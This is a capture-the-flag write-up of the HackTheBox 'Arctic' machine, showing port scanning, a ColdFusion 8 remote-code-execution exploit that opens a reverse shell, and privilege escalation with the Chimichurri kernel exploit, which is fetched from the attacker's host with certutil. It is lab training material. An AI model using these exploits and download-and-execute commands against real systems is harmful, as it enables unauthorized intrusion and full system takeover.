

# HackTheBox
------------------------------------
### IP: 10.129.42.31
### Name: Arctic
### Difficulty: Easy
--------------------------------------------


I'll begin enumerating this box by scanning all TCP ports with Nmap. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Arctic]
└─$ sudo nmap -p- -sC -sV 10.129.42.31
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-03 16:46 CDT
Nmap scan report for 10.129.42.31
Host is up (0.071s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 330.82 seconds
```

Looking at port 8500 we find an index.


This is looking like ColdFusion. Clicking into CFIDE we fan an administrator page:


Following the administrator link we find a ColdFusion 8 login page.


Looking for exploits I find this unauthenticated RCE exploit for Cold Fusion 8: https://www.exploit-db.com/exploits/50057

Lets give it a shot.

### Exploitation

Firstly we'll need to update lines 71-75 in the exploit to the correct IPs and ports:

```python
    # Define some information
    lhost = '10.10.14.216'
    lport = 443
    rhost = "10.129.42.31"
    rport = 8500
```

We can then launch the exploit with:

```
┌──(ryan㉿kali)-[~/HTB/Arctic]
└─$ python ~/Tools/exploits/coldfusion8_rce.py
```

This exploit spawns a reverse shell for us:

```
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis

C:\ColdFusion8\runtime\bin>hostname
hostname
arctic
```

From here I can grab the user.txt flag:


### Privilege Escalation

Not seeing much of interest on the box I decide to run `systeminfo` to see how old it is and what patching has been done:

```
C:\Users\tolis\Desktop>systeminfo
systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ��
System Boot Time:          4/7/2024, 8:35:41 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     6.143 MB
Available Physical Memory: 5.087 MB
Virtual Memory: Max Size:  12.285 MB
Virtual Memory: Available: 11.243 MB
Virtual Memory: In Use:    1.042 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.42.31
```

Wow, this is a Windows Server 2008 R2 that hasn't been patched.

This is likely vulnerable to Chimichurri: https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059%3A%20Chimichurri

Lets give it a try.

Lets transfer the exploit over:

```
C:\temp>certutil -urlcache -split -f "http://10.10.14.216/Chimichurri.exe"
certutil -urlcache -split -f "http://10.10.14.216/Chimichurri.exe"
****  Online  ****
  000000  ...
  0bf800
CertUtil: -URLCache command completed successfully.
```

We can then setup a netcat listener and run:

```
C:\temp>.\Chimichurri.exe 10.10.14.216 444
.\Chimichurri.exe 10.10.14.216 444
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
```

And after waiting about a minute we get a call back to our listener:

```
┌──(ryan㉿kali)-[~/HTB/Arctic]
└─$ nc -lnvp 444 
listening on [any] 444 ...
connect to [10.10.14.216] from (UNKNOWN) [10.129.42.31] 49301
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\temp>whoami
whoami
nt authority\system

C:\temp>hostname
hostname
arctic
```

We can now grab the root.txt flag:



Thanks for following along!

-Ryan

---------------------------------------------------------------------
